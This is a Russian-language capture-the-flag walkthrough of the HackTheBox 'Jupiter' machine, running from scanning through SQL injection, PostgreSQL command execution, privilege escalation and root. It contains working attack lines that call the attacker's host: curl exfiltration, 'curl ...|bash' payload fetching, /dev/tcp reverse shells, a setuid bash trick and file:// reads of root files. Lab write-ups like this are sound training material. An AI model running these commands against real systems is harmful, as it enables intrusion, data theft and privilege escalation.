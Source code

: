 # Jupiter
:white_check_mark:  [**Getting access by ssh on attacked machine with id_rsa**](#id_rsa_access)

:white_check_mark:  [**Jupyter notebook token**](#Jupyter_token_access)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV jupiter.htb
```

```
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home | Jupiter
9618/tcp filtered condor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Пробрутим поддомены, используя gobuster.

```
gobuster vhost -u jupiter.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 50 --append-domain
```

```
kiosk.jupiter.htb
```

![](../assets/Agile/1.png)

Обновим страницу и перехватим все запросы через Burp Suite. Среди всех запросов мы можем найти несколько со следующим содержимым.

![](../assets/Agile/2.png)

Параметр rawSql может быть уязвимым. Сохраним данный запрос в файл и запустим sqlmap.

```
sqlmap -r req.txt -dbs --batch
```

![](../assets/Agile/3.png)

Мы можем заметить, что данный параметр действительно уязвим. 

В интернете мы можем найти следующую [статью](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).

![](../assets/Agile/4.png)

Запустим слушатель и попробуем получить соединение:

```
copy (SELECT '') to program 'curl http://10.10.14.95:4444?f=`ls -l|base64`'-- -
```

![](../assets/Agile/5.png)

Мы получаем соединение, значит мы можем получить обратную оболочку.

Создадим файл, который будет давать нам обратную оболочку.

```
sh -i >& /dev/tcp/10.10.14.95/5566 0>&1
```
Обратимся к нему через уже найденную уязвимость.

```
copy (SELECT '') to program 'curl http://10.10.14.95:4455/rev.sh|bash'
```

![](../assets/Agile/6.png)

Загрузим на атакуемую машину pspy64 и запутим скрипт.

![](../assets/Agile/7.png)

Мы можем обнаружить два странных файла с названиями **shadow-simulation.sh** и **network-simulation.yml**.

Файл network-simulation.yml имеет следующее содержимое:

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

Данный скрипт запускает сервер, используя python3 и проверяет его работу. Попробуем сделать копию bash и выдать необходимые права.

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```

Прописываем команду **bash -p** и получаем пользователя juno.

![](../assets/Agile/8.png)

<a name="id_rsa_access"></a>

## Getting access by ssh on attacked machine with id_rsa

Получим доступ по ssh используя ключ. Для этого сгенерируем ключ на своей машине.

```
ssh-keygen
```

Загружаем файл id_rsa.pub на атакуемую машину и помещаем его в authorized_keys

```
mv id_rsa.pub authorized_keys
```

На своей машине выдаем ключу id_rsa права и подключаемся по ssh.

```
chmod 600 id_rsa 
```

Загрузим на атакуемую машину linpeas. Из вывода скрипта, мы можем обнаружить сервис на 8888 порту.

![](../assets/Agile/9.png)

Для того чтобы прокинуть порт, воспользуемся chisel.

```
1. Запускаем chisel на атакующей машине: ./chisel server --reverse -p 6789
2. Запускаем chisel на атакуемой машине: ./chisel client 10.10.14.89:6789 R:2222:127.0.0.1:8888
```

<a name="Jupyter_token_access"></a>

## Jupyter notebook token

Переходим по данному адресу и замечаем страницу Jupyter notebook.

![](../assets/Agile/10.png)

Чтобы получить доступ, нам необходим пароль или же токен. Найти токен мы можем в логах jupyter notebook.

![](../assets/Agile/11.png)

Берем любой токен и попадаем на сайт.

![](../assets/Agile/12.png)

Далее создадим новый файл: File -> New Notebook -> python3. Попробуем получить обратную оболочку используя команду:

```
import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.89/9999 0>&1"')
```

![](../assets/Agile/13.png)

![](../assets/Agile/14.png)

Мы получили пользователя jovian. Попробуем просмотреть права на выполнение команд.

![](../assets/Agile/15.png)

Мы можем заметить, что у нас есть доступ к использованию от sudo файла sattrack. Данный файл имеет формат ELF, значит мы не сможем его просто так прочитать. Воспользуемся командой strings и попробуем отыскать любое упоминание каких-либо конфигов.

![](../assets/Agile/16.png)

Прочтем содержимое данного конфига.

![](../assets/Agile/17.png)

Данный файл запрашивает данные с сайтов. Попробуем ввести вместо сайтов название файла с флагом.

```
"file:///root/root.txt"
```

![](../assets/Agile/18.png)

Теперь в директории /tmp мы можем обнаружить директорию /tle, содержащую файл root.txt

![](../assets/Agile/19.png)